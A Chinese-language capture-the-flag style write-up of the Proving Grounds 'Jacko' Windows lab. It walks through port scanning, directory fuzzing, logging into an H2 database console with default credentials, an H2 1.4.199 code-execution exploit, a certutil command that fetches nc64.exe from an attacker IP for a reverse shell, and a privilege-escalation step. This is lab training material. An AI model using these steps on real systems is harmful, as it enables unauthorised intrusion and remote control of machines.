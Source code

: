 ```yaml
---
title: Proving Grounds Practice-Jacko-Windows
date: 2025-6-09 20:00:00
tags: 红队
categories: 红队打靶-Windows
---
```


# 信息收集

## nmap

![image-20250609145335619](./Jacko-Windows/image-20250609145335619.png)

## 80端口-h2database

![image-20250609151806067](./Jacko-Windows/image-20250609151806067.png)

后缀是html，所以指定后缀去扫目录，可以得到很多目录，命令如下：

```
ffuf -u "http://192.168.151.66/html/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -e .html 
```

```
faq.html                
#                       
main.html               
links.html              
history.html            
features.html           
Images                  
FAQ.html                
source.html             
license.html            
tutorial.html           
Download.html           
Links.html              
advanced.html           
Main.html               
roadmap.html            
changelog.html          
frame.html              
architecture.html       
ChangeLog.html          
performance.html        
Features.html           
History.html            
installation.html       
build.html              
LICENSE.html            
IMAGES                  
quickstart.html         
functions.html          
License.html            
Tutorial.html           
CHANGELOG.html          
Changelog.html          
Architecture.html       
commands.html           
grammar.html            
Installation.html       
Performance.html        
Advanced.html           
Faq.html                
Source.html             
HISTORY.html            
fragments.html          
DOWNLOAD.html           
RoadMap.html            
Roadmap.html            
QuickStart.html         
Functions.html          
Frame.html              
Build.html              
MAIN.html               
                        
datatypes.html          
LINKS.html              
DownLoad.html           
Grammar.html            
TUTORIAL.html           
Commands.html           
FEATURES.html           
quickStart.html         
BUILD.html  
```

`changelog.html`下最新的版本为1.4.199，所以可以猜测当前版本就是1.4.199

![image-20250609152154323](./Jacko-Windows/image-20250609152154323.png)

## 8082端口-h2database-控制台

8082端口部署的是后台管理页面，并且8082也是h2database的默认端口，所有猜测密码也是默认密码，网上查询到默认用户就是sa，默认密码是空

![image-20250609151705859](./Jacko-Windows/image-20250609151705859.png)

![image-20250609151602273](./Jacko-Windows/image-20250609151602273.png)

用空密码正好可以登录

![image-20250609151737479](./Jacko-Windows/image-20250609151737479.png)

# H2 Database 1.4.199 - JNI Code Execution

[H2 Database 1.4.199 - JNI Code Execution - Java local Exploit](./https://www.exploit-db.com/exploits/49384)

通过搜索得知1.4.199的确存在代码执行漏洞，按照exp中的步骤可以命令执行，执行代码较长此处就不做粘贴了，可以自行下载exp，复制exp中的sql语句

![image-20250609153109824](./Jacko-Windows/image-20250609153109824.png)

目的是通过 Java 的 `Runtime.getRuntime().exec()` 执行系统命令，并通过 `Scanner` 读取输出。需要通过调用 `cmd.exe /c` 才能执行 `cmd`命令提示符下的一些命令，如`dir`，`cd`

将`nc64.exe`上传到靶机，使用nc来反弹shell

```
certutil -urlcache -split -f http://192.168.45.198/nc64.exe nc64.exe
```

![image-20250609172425495](./Jacko-Windows/image-20250609172425495.png)

![image-20250609172536006](./Jacko-Windows/image-20250609172536006.png)

![image-20250609172555467](./Jacko-Windows/image-20250609172555467.png)

当你第一次获得反向 shell 时，系统会对基本命令如 `whoami` 和 `cmd.exe` 抛出 `Command not found` 错误。这是因为 `%PATH%` 环境变量没有设置一些好的默认值。

```
set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
```

# 提权

提权是利用了本机安装的一个应用程序，该应用程序存在本地提权漏洞

![image-20250609180035166](./Jacko-Windows/image-20250609180035166.png)

![image-20250609180047160](./Jacko-Windows/image-20250609180047160.png)

按照exp对应操作即可

![image-20250609180016131](./Jacko-Windows/image-20250609180016131.png)

![image-20250609175957765](./Jacko-Windows/image-20250609175957765.png)
